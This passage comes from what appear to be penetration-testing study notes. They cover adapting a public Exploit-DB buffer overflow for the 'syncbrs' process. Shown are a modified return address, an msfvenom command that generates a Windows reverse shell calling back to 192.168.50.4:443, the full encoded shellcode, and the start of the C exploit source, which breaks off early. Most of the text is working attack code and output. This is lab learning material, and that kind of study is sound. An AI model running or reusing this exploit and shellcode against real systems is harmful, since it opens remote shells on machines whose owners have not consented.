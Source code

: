 ### Fixing the Exploit 

Modify return address to match our vulnerable software version. 

Use #immunitydebugger and attach the program. Click _File_> _Attach_ > _syncbrs_ process

Changing the return address in C.

```
unsigned char retn[] = "\x83\x0c\x09\x10"; // 0x10090c83
```

Just looked up the return address:
https://www.exploit-db.com/exploits/42928

Generating our own shellcode payload with #msfvenom 

Bad characters listed in exploit file already.

Using msfvenom to generate a reverse shell payload that fits our environment

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`

Result:

````
"\xdb\xcc\xbe\xa5\xcc\x28\x99\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x52\x31\x72\x17\x83\xc2\x04\x03\xd7\xdf\xca\x6c\xeb\x08\x88"
"\x8f\x13\xc9\xed\x06\xf6\xf8\x2d\x7c\x73\xaa\x9d\xf6\xd1\x47"
"\x55\x5a\xc1\xdc\x1b\x73\xe6\x55\x91\xa5\xc9\x66\x8a\x96\x48"
"\xe5\xd1\xca\xaa\xd4\x19\x1f\xab\x11\x47\xd2\xf9\xca\x03\x41"
"\xed\x7f\x59\x5a\x86\xcc\x4f\xda\x7b\x84\x6e\xcb\x2a\x9e\x28"
"\xcb\xcd\x73\x41\x42\xd5\x90\x6c\x1c\x6e\x62\x1a\x9f\xa6\xba"
"\xe3\x0c\x87\x72\x16\x4c\xc0\xb5\xc9\x3b\x38\xc6\x74\x3c\xff"
"\xb4\xa2\xc9\x1b\x1e\x20\x69\xc7\x9e\xe5\xec\x8c\xad\x42\x7a"
"\xca\xb1\x55\xaf\x61\xcd\xde\x4e\xa5\x47\xa4\x74\x61\x03\x7e"
"\x14\x30\xe9\xd1\x29\x22\x52\x8d\x8f\x29\x7f\xda\xbd\x70\xe8"
"\x2f\x8c\x8a\xe8\x27\x87\xf9\xda\xe8\x33\x95\x56\x60\x9a\x62"
"\x98\x5b\x5a\xfc\x67\x64\x9b\xd5\xa3\x30\xcb\x4d\x05\x39\x80"
"\x8d\xaa\xec\x07\xdd\x04\x5f\xe8\x8d\xe4\x0f\x80\xc7\xea\x70"
"\xb0\xe8\x20\x19\x5b\x13\xa3\xe6\x34\x29\x37\x8f\x46\x4d\x36"
"\xf4\xce\xab\x52\x1a\x87\x64\xcb\x83\x82\xfe\x6a\x4b\x19\x7b"
"\xac\xc7\xae\x7c\x63\x20\xda\x6e\x14\xc0\x91\xcc\xb3\xdf\x0f"
"\x78\x5f\x4d\xd4\x78\x16\x6e\x43\x2f\x7f\x40\x9a\xa5\x6d\xfb"
"\x34\xdb\x6f\x9d\x7f\x5f\xb4\x5e\x81\x5e\x39\xda\xa5\x70\x87"
"\xe3\xe1\x24\x57\xb2\xbf\x92\x11\x6c\x0e\x4c\xc8\xc3\xd8\x18"
"\x8d\x2f\xdb\x5e\x92\x65\xad\xbe\x23\xd0\xe8\xc1\x8c\xb4\xfc"
"\xba\xf0\x24\x02\x11\xb1\x45\xe1\xb3\xcc\xed\xbc\x56\x6d\x70"
"\x3f\x8d\xb2\x8d\xbc\x27\x4b\x6a\xdc\x42\x4e\x36\x5a\xbf\x22"
"\x27\x0f\xbf\x91\x48\x1a";
````

 Exploit code following the socket information, return address instruction, and payload changes

```hlt:55,31,33,69,72-97
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#define DEFAULT_BUFLEN 512

#include <inttypes.h>
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>

DWORD SendRequest(char *request, int request_size) {
    WSADATA wsa;
    SOCKET s;
    struct sockaddr_in server;
    char recvbuf[DEFAULT_BUFLEN];
    int recvbuflen = DEFAULT_BUFLEN;
```